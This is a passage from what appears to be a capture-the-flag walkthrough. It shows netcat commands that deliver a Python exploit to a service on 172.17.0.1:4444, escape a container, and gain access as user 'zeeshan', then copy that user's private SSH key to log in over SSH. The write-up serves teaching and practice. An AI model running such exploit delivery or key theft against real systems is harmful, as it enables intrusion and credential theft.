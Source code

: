 ```bash
nc 172.17.0.1 4444
```

![e6e5e9c1def328b87c130496b0a35db2.png](./_resources/e6e5e9c1def328b87c130496b0a35db2.png)

- We see something familiar (I think you already know what we have to do to escape the container XD)

All we have to do now is to run our exploit against this host

```bash
(python ./exp.py; cat) | nc 172.17.0.1 4444
```

aaaaaand we have successfully escaped the contianer:  
![417e04181ee6de4520a618cfe9bc6568.png](./_resources/417e04181ee6de4520a618cfe9bc6568.png)

- We are get access as a user called `zeeshan`
- You can find their private SSH key in their home folder
- let's copy it to our machine and connect to the host via SSH  
    ![781b19d4cfefb96de813653043c91b00.png](./_resources/781b19d4cfefb96de813653043c91b00.png)
